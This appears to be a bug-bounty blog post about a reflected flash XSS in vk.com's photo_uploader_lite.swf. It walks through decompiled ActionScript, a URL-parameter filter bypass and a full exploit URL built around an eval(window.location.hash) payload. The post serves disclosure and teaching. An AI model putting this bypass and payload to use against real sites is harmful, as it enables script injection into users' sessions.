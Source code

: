 ```yaml
---
layout: post
title: "Interesting flash xss on vk.com"
categories: Hacks
tags: hacks
image: https://i.imgur.com/wBhOE51.png?1
---
```


### Introduction

Every time I try a bug bounty program on **HackerOne**, I first check for flash files on the domains which are in scope. Flash files are always
a good target as far as I am concerned. Approximately three months back, I came across **VK.com** bug bounty. So, when I searched for flash files
I came across one file named **photo_uploader_lite.swf**. So, I opened the file in my browser and the file got downloaded instead of getting played
in the browser. I ran curl to check the response headers and body.

```
$ curl -i http://vk.com/swf/photo_uploader_lite.swf

HTTP/1.1 200 OK
Server: Apache
Date: Wed, 30 Sep 2015 14:14:31 GMT
Content-Type: application/zip
Content-Length: 12189
Last-Modified: Tue, 21 Jul 2015 16:43:33 GMT
Connection: keep-alive
ETag: "55ae76b5-2f9d"
Expires: Sun, 04 Oct 2015 14:14:31 GMT
Cache-Control: max-age=345600
Accept-Ranges: bytes
```

The file was being served with content type `application/zip`. When I saw the first few bytes of the flash files I recognized the **CWS** file
header which is present for compressed flash files. This flash file will work as expected when embedded using an *object* or *embed* tag. But for a flash
xss, you cannot embed swf on your domain (No actionscript methods were exposed to JS). At this point of time, I lost hopes but still wanted to
have a look at the decompiled code. The following snippet only consists of the interesting code segments for better readability.

{% highlight actionscript linenos %}
package {
    // some imports
    class ExternalCall {
        public static function Simple(_arg1:String):void{
            Call(_arg1);
        }
        private static function Call(... _args):Boolean{
            var _local2:Array;
            var _local3:RegExp;
            if (ExternalInterface.available){
                _local2 = (_args as Array);
                _local3 = /[^().a-z0-9_]/gi;
                _local2[0] = _local2[0].replace(_local3, "");
                return (ExternalInterface.call.apply(null, _local2));
            };
            return (false);
        }
}
package {
    // some imports
    public class Main extends Sprite {

        public function Main():void{
            super();
            if (stage){
                this.init();
            } else {
                addEventListener(Event.ADDED_TO_STAGE, this.init);
            };
        }
        private function init(_arg1:Event=null):void{
            var mouseMove:* = null;
            var mouseOut:* = null;
            var e = _arg1;
            if (some_mouse_over_condition) {
                mouseOver();
            }
            var mouseOver:* = function ():void{
                ExternalCall.Simple(config.onMouseOver);
                stage.addEventListener(Event.MOUSE_LEAVE, mouseOut);
                insideFrame = true;
            };
        }
    }
}
package {
    // some imports

    public class Config {

        private static var _config:Object = {
            // ... some params ...
            onMouseOver:"debugLog",
            // ... some more params ...
        };

        public static function loadConfig(_arg1:LoaderInfo):Object{
            var parameters:* = null;
            var urlQuery:* = null;
            var urlVars:* = null;
            var key:* = null;
            var loaderInfo:* = _arg1;
            try {
                loaderInfo = LoaderInfo(loaderInfo);
                parameters = loaderInfo.parameters;
                urlQuery = loaderInfo.url.split("?")[1];
                urlVars = new URLVariables(((urlQuery) || ("")));
                for (key in urlVars) {
                    if (parameters[key]){
                        delete parameters[key];
                    };
                };
                setConfig(parameters);
            } catch(error:Error) {
            };
            return (_config);
        }

    }
}
{% endhighlight %}

The cleansing of parameters object was being done in the method **loadConfig**. So, any parameter provided in the url is removed from the parameters object.
This looked to me like a protection against flash xss because in a legitimate embed scenario parameters are provided through the **param** html tag. Ideally,
this is a really good way but they forgot something. Have a look at **line 66**. They are extracting url parameters by `loaderInfo.url.split("?")[1]`. What
if the url is something like

```
http://vk.com/swf/photo_uploader_lite.swf?h=h?&param1=value1
```

As far as flash player is concerned the parameters object will have the following values

```
h = h?
param1 = value1
```

But the url parameters extracted by swf will have the following values (as they are considering only 1 index element after splitting)

```
h = h
```

So, when they try to remove url parameters from the flash parameters object, only `h` gets removed but not `param1`. So, we successfully got our
url parameter to stay intact in the parameters object. Cool. **Line 39** has a call to `ExternalCall.Simple` with argument `config[onMouseOver]`. Now
ideally if you put anything like `alert(1)`, `confirm(1)` etc.. it will work. For me a bug is something which can be exploitable. Our next challenge
lies at **line 12**. The only allowed characters in your javascript call are `a-z`,`0-9`,`(`,`)`,`.`,`_`. Javascript strings are common part of any
useful payload, but quotes are filtered here. `,` is not allowed which prevents usage of `String.fromCharCode`. `window.location.hash` came to my mind. So,
a working payload will be

{% highlight javascript %}
eval(window.location.hash.substr(1))
{% endhighlight %}

Now you can place any js code in the fragment part of the url. All this is awesome, but the file is not played by the browser as of now because of the content
type. In this desperate time, my old friend **IE** came to my rescue. If you carefully observe the response headers there is no `X-Content-Type-Options`.
So, when I opened the url in IE, KABOOOOM!!! It sniffed the content type and played the flash file. Ah, the bug is finally exploitable but only in **IE**

```
http://vk.com/swf/photo_uploader_lite.swf?h=h?&onMouseOver=eval(window.location.hash.substr(1))#alert(document.domain);
```

A different payload is in the image

![vk.com Flash XSS](http://i.imgur.com/wBhOE51.png?1)

**HackerOne Report is present [here](https://hackerone.com/reports/66121)** (Not public at the time of writing)
